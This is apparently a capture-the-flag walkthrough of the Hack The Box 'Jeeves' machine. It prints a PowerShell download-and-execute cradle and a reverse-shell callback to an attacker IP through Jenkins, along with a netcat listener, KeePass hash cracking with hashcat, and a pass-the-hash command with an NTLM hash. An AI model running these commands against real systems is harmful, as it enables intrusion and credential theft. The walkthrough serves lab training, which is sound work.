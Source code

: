 ## Hack The Box - Jeeves (10.10.10.63)
Jeeves is a medium box from Hack The Box and it is a Windows machine. It presents a minor rabbit hole but with enough enumeration and familiarity with Windows Powershell, Netcat, and Hashcat attackers should have no issue obtaining their flags. Watch the video walkthough on Youtube <a href="https://www.youtube.com/watch?v=u3iB1mrolRU">HERE</a> or read along.

[![Watch Video Walkthough](https://img.youtube.com/vi/u3iB1mrolRU/0.jpg)](https://www.youtube.com/watch?v=u3iB1mrolRU)


### Enumeration
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I will opt to use <a href="https://github.com/21y4d/nmapAutomator">nmapAutomator</a>, although you can run a traditional Nmap scan. 

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```


We have four open ports on our target machine. After no success with enumerating port 445 (SMB), I decided to open our target machine in a web browser to view what is hosted on port 80 (http://10.10.10.63:80). It appears our target is running ‘Ask Jeeves’ as a service and is running on ‘Microsoft-IIS/10.0’. I will run a <a href="https://tools.kali.org/web-applications/dirbuster">DirBuster</a> scan to enumerate further files and directories here but did not obtain anything useful. 


![jeeves](https://user-images.githubusercontent.com/85421181/121051454-17436980-c77f-11eb-8650-e492b0a48f6c.png)



Continuing with our enumeration, I decided to view what is hosted on port 50000 (http://10.10.10.63:50000). It appears our target is running Jetty on this port and it may be running on version 9.4.x according to our Nmap scan from earlier. 

![jetty](https://user-images.githubusercontent.com/85421181/121051549-288c7600-c77f-11eb-8db4-3394bb1d663b.png)

As I run another DirBuster scan on our target machine and port 50000 I decide to research possible exploits available for Jetty 9.4.x and later. After attempting several exploits from GitHub, <a href="https://www.exploit-db.com/exploits/36318">ExploitDB</a>, and <a href="https://www.rapid7.com/db/vulnerabilities/http-jetty-command-execution/">Metasploit</a> I decided that there must be another method to obtain our initial foothold. My DirBuster scan from earlier has finished and has revealed a new directory (/askjeeves). 

![dirb](https://user-images.githubusercontent.com/85421181/121051588-2e825700-c77f-11eb-9ef5-439a7feee42a.png)

It appears our target is hosting an application called Jenkins, software for developers to automatically build, test, and deploy their software. 

![jenkins](https://user-images.githubusercontent.com/85421181/121051616-33470b00-c77f-11eb-9446-4c541faf6114.png)

After poking around the application it appears that we can build and deploy new projects without any restriction. We will go to ‘New Item > Freestyle project’ and name our project whatever we choose. On the next page, we are given several options and the most interesting is the ‘Build’ sections where we can select ‘Execute Windows batch command’ as an option. Interesting! Let us craft a payload using a Powershell one-liner and <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1">Nishang's Invoke-PowerShellTcp.ps1</a> script. 

### Initial Foothold
We will append the following line to the very end of our Invoke-PowerShellTcp.ps1 script to enable the callback to our attacker machine once executed on our target machine. Please ensure to change ‘10.10.10.10.’ to your IP Address and ‘4444’ to the port which you will be listening on for your reverse shell (Netcat will be utilized for this step and will be explained later). 

```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 
```
Great, our script is ready to go! Let's host it on our attacker machine utilizing either <a href="https://docs.python.org/2.7/library/simplehttpserver.html?highlight=simplehttpserver#module-SimpleHTTPServer">SimpleHTTPServer</a> or <a href="https://docs.python.org/3/library/http.server.html">http.server</a> (either will work). 

```markdown
python -m SimpleHTTPServer 8080
or
python3 -m http.server 8080
``` 
Our attacker machine is now hosting 'Invoke-PowerShellTcp.ps1' on our IP address on port 8080. Once downloaded and executed by our target it will send a reverse shell to our attacker machine. We will catch this reverse shell utilizing <a href="https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf">Netcat</a>. To do this, execute the below command and ensure that the port listed in this command is the same declared at the bottom of our Invoke-PowerShellTcp.ps1 script from earlier.

```markdown
nc -lvnp 4444
```
Time to get our initial foothold. Powershell's IEX is a powerful resource to have in your toolkit so if this is your first time using it, make sure to commit the following to memory because there will be plenty of opportunities to use it again. We will be executing the following Powershell one-liner code in the ‘Execute Windows batch command’ box of our Jenkins application. Before doing so, ensure that 10.10.10.10 is replaced with your attacker machine's IP address. 

```markdown
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1');
```
![build](https://user-images.githubusercontent.com/85421181/121052031-96d13880-c77f-11eb-8fa3-6c440ed7b0c0.png)

Click ‘Save’ and ‘Build Now’ to see your file get pulled from your attacker machine and executed on the target machine to provide you with your reverse shell caught by Netcat. Congratulations, we have our initial foothold and appear to be a user name ‘kohsuke’. Let us continue with our privilege escalation. 

![foothold](https://user-images.githubusercontent.com/85421181/121052041-9afd5600-c77f-11eb-859e-3a810084317d.png)

### Privledge Escalation
After searching around our target's machine I notice there is a file called ‘CEH.kdbx’ located in ‘C:\Users\kohsuke\Documents’. This file extension is indicative of a KeePass file which we will be using keepass2john and Hashcat to crack and obtain the cleartext password. So first, download the file to your local attacker machine. 

![CEH](https://user-images.githubusercontent.com/85421181/121052053-9df84680-c77f-11eb-9988-cd6287d6bf24.png)

On your attacker machine run the following command to turn your .kdbx file into a hash we can feed into Hashcat for a cleartext password.

```markdown
keepass2john CEH.kdbx > CEH.hash
```
![hash](https://user-images.githubusercontent.com/85421181/121052080-a3559100-c77f-11eb-8041-7d05a4ef1eb0.png)

We will now feed this hash file (CEH.hash) into a tool called Hashcat which will provide us with the cleartext password. For this password crack, I will be utilizing rockyou.txt as a password file but I encourage everyone to checkout SecLists for more resources. 

```markdown
hashcat -m 13400 CEH.hash rockyou.txt
```
OUTPUT:
![hashcat](https://user-images.githubusercontent.com/85421181/121052096-a6e91800-c77f-11eb-8995-1231c2e705ed.png)

With our password being ‘moonshine1’ we can now view the contents of the KeePass file!

![keepass](https://user-images.githubusercontent.com/85421181/121052107-a9e40880-c77f-11eb-8dba-d05c060f6ed8.png)


Viewing all the entries it seems like ‘Backup stuff’ contains an NTLM hash in the password field. 

```markdown
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
We can use a pass-the-hash attack to gain access to our target's machine as Administrator. We will use <a href="https://www.kali.org/blog/passing-hash-remote-desktop/">pth-winexe</a> for this attack.

```markdown
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```
![pth-winexe](https://user-images.githubusercontent.com/85421181/121052128-b0728000-c77f-11eb-8073-f2db91708325.png)

### Closing Remarks
  We are now Administrator! Before ending this, it is worth noting that you may not be able to obtain your root flag as easily as the user flag. This is because there is a file stream via the ‘hm.txt’ file located in C:\Users\Administrator\Desktop' and it can only be seen by appending /r to your ‘dir’ command. 

![dir](https://user-images.githubusercontent.com/85421181/121052143-b4060700-c77f-11eb-8d07-69e297f563bb.png)

Utilize the following command to obtain your root flag.

```markdown
powershell Get-Content -path C:\Users\Administrator\Desktop\hm.txt -stream root.txt
```
Thanks for reading! 
{"mode":"full","isActive":false}
